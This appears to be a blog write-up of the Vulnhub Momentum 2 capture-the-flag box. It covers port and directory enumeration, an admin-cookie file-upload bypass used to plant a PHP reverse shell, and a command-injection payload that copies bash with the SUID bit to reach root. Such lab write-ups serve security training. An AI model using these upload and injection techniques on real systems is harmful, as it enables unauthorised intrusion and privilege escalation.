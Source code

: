 ```yaml
---
title: Vulnhub Momentum 2 Writeup
date: 2022-10-07 12:00:00 -0700
categories: [ctf]
tags: [hacking,writeup,web,linux] # TAG names should always be lowercase
---
```


# Momentum 2
---
Here we will be going over the Momentum 2 box from Vulnhub. This box will test your ability on enumeration, web exploitation, and Linux privilege escalation. 


## Part 1
---
Before we start. Lets add the machines IP to an environment to make things easier on us.

```shell
set IP = <box-IP>
```

Now that's done lets begin:

As with all boxes we start with our network enumeration.

```shell
nmap -sC -sV -oN nmap/initial $IP
```

Here we see we have 2 ports open:

```shell
# Nmap 7.92 scan initiated Fri Sep 23 08:36:58 2022 as: nmap -sC -sV -oN nmap/initial 172.16.42.164
Nmap scan report for 172.16.42.164
Host is up (0.00044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 02:32:8e:5b:27:a8:ea:f2:fe:11:db:2f:57:f4:11:7e (RSA)
|   256 74:35:c8:fb:96:c1:9f:a0:dc:73:6c:cd:83:52:bf:b7 (ECDSA)
|_  256 fc:4a:70:fb:b9:7d:32:89:35:0a:45:3d:d9:8b:c5:95 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum 2 | Index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 23 08:37:05 2022 -- 1 IP address (1 host up) scanned in 6.70 seconds
```

Since we have a web port open running Apache we can begin enumeration on that URL using Gobuster. ( Ensure to specify the file extensions you are looking for otherwise you will be stuck on this point. )

```shell
gobuster dir -u http://$IP -w ~/Hack/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .cgi,.txt,.php,.html,.py,.sh,.jpg,.png,.bak,.php.bak -t 100 
```

You should see output similar to this.

```shell
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.42.164
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /home/user/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,jpg,bak,cgi,txt,php,html,py,png,php.bak
[+] Timeout:                 10s
===============================================================
2022/10/05 19:29:36 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://172.16.42.164/img/]
/index.html           (Status: 200) [Size: 1428]
/ajax.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://172.16.42.164/css/]
/ajax.php.bak         (Status: 200) [Size: 357]
/manual               (Status: 301) [Size: 315] [--> http://172.16.42.164/manual/]
/js                   (Status: 301) [Size: 311] [--> http://172.16.42.164/js/]
/dashboard.html       (Status: 200) [Size: 513]
/owls                 (Status: 301) [Size: 313] [--> http://172.16.42.164/owls/]
/server-status        (Status: 403) [Size: 278]

[!] Keyboard interrupt detected, terminating.
===============================================================
2022/10/05 19:31:17 Finished
===============================================================
```

We can see a few interesting files we might want to check out:
- owls
- dashboard.html
- ajax.php.bak

browsing to the first, we see a page that displays a directory tree we can access.

![](/assets/images/vulnhub/momentum2/owls.png)

Browsing to the second, we see an uploads page.

![](/assets/images/vulnhub/momentum2/dashboard.png)

Browsing to the last, we are able to download the file.

After the download is complete we see some useful information.

```php
    //The boss told me to add one more Upper Case letter at the end of the cookie
   if(isset($_COOKIE['admin']) && $_COOKIE['admin'] == '&G6u@B6uDXMq&Ms'){

       //[+] Add if $_POST['secure'] == 'val1d'
        $valid_ext = array("pdf","php","txt");
   }
   else{

        $valid_ext = array("txt");
   }

   // Remember success upload returns 1 % 
```

Here we see that if we add the correct admin cookie and a second post parameter of secure = val1d, then we can upload .php files to the uploads page. 

To do this we can use Burpsuite to intercept the request and manipulate it to send our php reverse shell.

First lets get our PHP reverse shell from PentestMonkey and ready by adding our IP and a port we want to listen on in the fields listed in the Revshell.

Here is what needs to be added to the request as stated in the ajax.php.bak.

![](/assets/images/vulnhub/momentum2/burp1.png)

Send the request over to intruder to find out the last digit. Add the squiggle "s" to the end of the cookie and go to payloads.

![](/assets/images/vulnhub/momentum2/request.png)

Under payloads add uppercase letters to the list and hit start attack.

![](/assets/images/vulnhub/momentum2/burp3.png)

You should see a "1" in the response from "R" indicating that is the letter needed. Add the letter to the end of the cookie in the proxy tab. Forward the request and the shell should go through.

Open a terminal, and open a listener on the port you put in the reverse shell. Go to the owls page and select your shell. You now have a shell on the machine!

Now that your on you can start looking for privesc routes. Being the "www" user you have basically no rights. So we need to see if their are any ways from our current user to root or another user. We see in the home directory that their is a user named "athena" and she has her password written down in a file in her directory. We use this to switch to her account. 

```shell
su athena
```

As athena we can read the user flag in her home directory.

![](/assets/images/vulnhub/momentum2/momentum-2-user-flag.png)

Now first thing I normally do, is see if I have sudo privilege to any files or binaries.

```shell
sudo -l
```

I see that as athena we are able to run a python script as root. This script takes a seed we give it and outputs an admin cookie for the site. We can abuse this due to no input filters put in place and spawn a shell by adding this to out seed.

I tried  "bash -i" with the seed. For an example.
```shell
1;bash -i
```

It didn't quite work due to it spawning an unstable dead shell.

So I tried to add the SUID bit to bash by copying the binary to /tmp and using this in place of "/bin/bash" when running the shell.

```shell
1;cp /bin/bash /tmp/bash;chmod u+s /tmp/bash
```

Finally I can gain a root shell by using.

```shell
/tmp/bash -p
```

You now have a root shell and can retrieve the root flag.

![](/assets/images/vulnhub/momentum2/momentum-2-root-flag.png)

This concludes the momentum series from Vulnhub! follow me on my socials for more!